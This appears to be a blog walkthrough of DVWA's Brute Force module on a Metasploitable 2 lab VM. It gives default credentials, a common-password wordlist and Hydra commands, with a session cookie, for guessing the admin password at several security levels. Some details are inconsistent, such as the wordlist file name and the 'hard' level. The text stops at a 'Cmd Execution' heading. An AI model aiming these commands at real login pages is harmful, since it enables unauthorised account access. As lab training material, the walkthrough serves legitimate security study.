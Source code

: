 ```yaml
---
title: DVWA
date: 2025-10-05 00:12:12 +0530
categories: [CTFs, DVWA]
tags: [dvwa]     # TAG names should always be lowercase
description: Damn Vulnerable Web Application Walkthrough.

---
```


# A Step-by-Step Guide to the DVWA Brute Force Module

Welcome to this walkthrough for the Brute Force module in the Damn Vulnerable Web Application (DVWA). This guide is for educational purposes to help you understand how brute-force attacks work and, more importantly, how to defend against them. We will explore each difficulty level from Low to Impossible.

## Setup

For this walkthrough we will utlize Metasploitable 2 instance which ships with a DVWA instance
* Start the metasploitable 2 instance.
* Login using credentials `msfadmin:msfadmin`.
* check the ip address of the system using `ifconfig`.
* Uisng your kali linux instance, go the IP of metasploitable and choose dvwa.
* Login in to dvwa using credentials `admin:password`.
* Go to Setup, and use Create/Reset Database

## Challenge 1: Brute Force Attacks

### What is a Brute-Force Attack?

A brute-force attack is a trial-and-error method used to obtain information such as a username or password. The attacker systematically tries all possible combinations of characters until the correct one is found. In the context of a web login form, this involves using a list of common usernames and passwords (a wordlist) to guess the credentials.

### Preparation

Prepare our own wordlist for password for easy bruteforcing
```shell
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123
```
{: file="passwords.txt" }

Let's begin!

---

### Level: Low

At the Low security level, the application has **zero protection** against brute-force attacks. The server-side code simply takes the user's input and checks it against the database. There is no rate limiting, no account lockout, and no other mechanism to slow down or stop repeated login attempts.

An attacker can send thousands of requests per minute without any penalty.


We will use the command-line tool **Hydra** to automate the password guessing process.

**Step 1: Analyze the Login Form**
Launch Burp Suite and proxy all trafic through it.

First, navigate to the DVWA Brute Force page. Enter any random username and password (e.g., `admin` / `12345`) and click "Login".You will see that it's a `GET` request.

The URL will look something like this:
`http://192.168.202.148/dvwa/vulnerabilities/brute/?username=admin&password=12345&Login=Login#`

Also, note the error message on the page for a failed login: "**Username and/or password incorrect.**"

![Brute Force Login Error](/assets/img/dvwa-brute-login-failed.png){: .shadow }
![Brute Force Login Error](/assets/img/dvwa-brute-burp.png){: .shadow }


**Step 2: Construct the Hydra Command**

```bash
hydra 192.168.202.148 http-form-get "/dvwa/vulnerabilities/brute/:username=admin&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=e6c27aacd3395aa1fce72b6655dc2a35; security=low:F=Username and/or password incorrect." -l admin -P password.txt
```
* Change the IP address.
* Change the PHPSESSIP cookie by looking at the burp request.

![Brute Force Low Command](/assets/img/dvwa-brute-low-cmd.png){: .shadow }

### Level: Medium

**To Change difficulty, just change the security cookie. Like `security=medium`**

The medium security level in the DVWA's brute-force module introduces a rudimentary, yet effective, defense mechanism: a sleep() function. This function intentionally pauses the execution of the script for a short duration after each failed login attempt.

Still we can use the same hydra tool with same syntax, just change the cookie `security=medium`. The only diffrence you will observe is that the script will take little bit more time to finish the attack.

```bash
hydra 192.168.202.148 http-form-get "/dvwa/vulnerabilities/brute/:username=admin&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=e6c27aacd3395aa1fce72b6655dc2a35; security=medium:F=Username and/or password incorrect." -l admin -P password.txt
```
![Brute Force Medium Command](/assets/img/dvwa-brute-medium-cmd.png){: .shadow }

### Level: Hard

Here again, the attack will be much slower but the same command will work fine. Just change the security cookie to `security=hard`

```bash
hydra 192.168.202.148 http-form-get "/dvwa/vulnerabilities/brute/:username=admin&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=e6c27aacd3395aa1fce72b6655dc2a35; security=hard:F=Username and/or password incorrect." -l admin -P password.txt
```
![Brute Force Hard Command](/assets/img/dvwa-brute-hard-cmd.png){: .shadow }

### Conclusion

Using the above attacks we identifed the corrent `admin` password as `password`
![Brute Force Hard Command](/assets/img/dvwa-brute-login-success.png){: .shadow }

## Challenge 2: Cmd Execution
